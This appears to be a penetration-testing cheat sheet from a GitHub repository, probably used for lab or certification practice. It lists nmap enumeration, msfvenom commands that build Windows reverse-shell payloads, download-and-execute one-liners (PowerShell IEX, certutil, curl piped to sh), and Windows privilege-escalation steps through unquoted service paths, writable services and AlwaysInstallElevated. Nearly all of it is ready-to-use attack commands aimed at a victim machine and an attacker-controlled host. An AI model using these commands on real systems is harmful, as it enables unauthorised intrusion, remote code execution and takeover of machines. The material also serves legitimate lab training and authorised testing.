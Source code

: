 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result`   AND  `rustscan -a $IP and rustscan -a $IP`. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Check vulnerabilities and enumerate for each port
0. Go to the differnet MD files in the repo.

## Creating a reverseshell, uploading a revershell  / creating a stageless payload
0. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1237 -f exe  -o reverse.exe` 
1. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1234 -f asp -o reverse.asp` 

## File Transfer to Window victim
### File transfer via own web server
0. `python3 -m http.server 8080` from linux
1. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://myIP:80/winpeas.exe', 'winpeas.exe') -exec bypass` from window
2. `certutil.exe -urlcache -f  http://myIp:80/winpeas.exe` from window
### File Transfer via SMB
0. `mkdir share` and move files to transfer
1. `impacket-smbserver smb share/ ` from linux
2. `net use \\myIP\smb` from window
3. `copy \\myIP\smb\winpeas.exe   \windows\temp\winpeas.exe` 

 ## Privilege Escalation for Window
 0. Use PowerUp
 1. `Import-Module .\PowerUp.ps1`
 2. `Invoke-AllChecks`
 3. or `powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://myIP:80/PowerUp.ps1');Invoke-AllChecks"`
 4. Use WinPeas
 5. `winpeas.exe`
 ### Unquoted Service Path
 0. `Get-UnquotedService` or `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`
 1. or `sc qc unquotedsvc`
 2.`msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=LISTENINGPORT -f exe  -o Program.exe` (create a payload)
 3.`sc start unquotedsvc` or restart box.
 

 ### Writable Service Executable
  0.`Invoke-AllChecks`\
  1. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f exe >service.exe`  (payload name has to be same as writable service) 

 ### AlwaysInstallElevate
 check if both values are 1.\
 0.`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 1.`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 2. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f msi >payload.msi`  (create a payload) 
 3. Transfer payload to Temp and execute
 4. `msiexec /i "C:\Windows\Temp\payload.msi"`


 ### SeImpersonatePrivilege 

## File Transfer to Linux victim
0.`python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` Stabalize shell \
1.`python3 -m http.server 8080` `or( 80)`
2.`cd /tmp` move directory where we have write access.
4.`wget http://$myIP:8080/linEum.sh .` \
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225

## Privilege Escalation for Linux
0. `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script (run from cd /tmp)
1. `chmod +x linpeas.sh` and `./linpeas.sh`


